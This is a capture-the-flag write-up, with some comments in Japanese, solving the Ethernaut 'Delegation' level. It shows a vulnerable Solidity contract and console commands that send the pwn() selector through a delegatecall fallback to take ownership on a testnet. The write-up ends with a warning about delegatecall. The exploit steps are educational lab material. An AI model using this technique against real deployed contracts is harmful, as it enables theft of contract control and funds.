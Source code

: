 ## Ethernaut-solution

### 6. DELEGATION 

This means that a contract can dynamically load code from a different address at runtime. 
Storage, current address and balance still refer to the calling contract, 
only the code is taken from the called address.

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

- Look into Soliditys documentation on the delegatecall low level function, how it works, 
how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.

- Fallback methods

- Method ids

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender; //change the pwner call the Delegation contract 
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data); //By hacking, delegatecall signature of pwn() function into this fallback 
    if (result) {
      this;
    }
  }
}
```


//まずいつもどおりinstanceをつくる

//contract確認
```
>contract

n {methods: {…}, abi: Array(3), address: '0x6288594C2A2B0847D5C6b7f6E7fB92f380D13717', transactionHash: undefined, constructor: ƒ, …}
abi: (3) [{…}, {…}, {…}]
address: "0x6288594C2A2B0847D5C6b7f6E7fB92f380D13717"
allEvents: ƒ (n)
constructor: ƒ ()
contract: I {_requestManager: t, givenProvider: Proxy, providers: {…}, setProvider: ƒ, …}
getPastEvents: ƒ (n,i)
methods: {owner(): ƒ}
owner: ƒ ()
send: ƒ (t)
sendTransaction: ƒ ()
transactionHash: undefined
[[Prototype]]: e
```
```
>contract.abi
(3) [{…}, {…}, {…}]
0: {inputs: Array(1), stateMutability: 'nonpayable', type: 'constructor', constant: undefined, payable: undefined}
1: {stateMutability: 'nonpayable', type: 'fallback', constant: undefined, payable: undefined}
2: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}
length: 3
[[Prototype]]: Array(0)
```

//現オーナーの確認
```
>await contract.owner()
'0x9451961b7Aea1Df57bc20CC68D72f662241b5493'
```
```
>var pwnFuncSignature = web3.utils.sha3("pwn()")
undefined
```
```
>pwnFuncSignature
'0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab'
```
```
>contract.sendTransaction({data: pwnFuncSignature})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}addListener: ƒ (t,e,r)emit: ƒ (t,e,r,n,o,a)listeners: ƒ (t)off: ƒ (t,e,r,n)on: ƒ (t,e,r)once: ƒ (t,e,r)removeAllListeners: ƒ (t)removeListener: ƒ (t,e,r,n)_events: o {}[[Prototype]]: Promise[[PromiseState]]: "pending"[[PromiseResult]]: undefined
```
```
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3e1c3b84fcb960c8b027571fa9b2439959aaccf72da1b8d802d910d6e87732d8
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3e1c3b84fcb960c8b027571fa9b2439959aaccf72da1b8d802d910d6e87732d8
```

//ownerがchangeしたことを確認
```
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

=> hackingに成功 via pwn()function


Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, 
your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". 
Delegates have complete access to your contracts state. The delegatecall function is a powerful feature, 
but a dangerous one, and must be used with extreme care.

Please refer to the The Parity Wallet Hack Explained article for an accurate explanation of how this idea was used to steal 30M USD.

https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7/










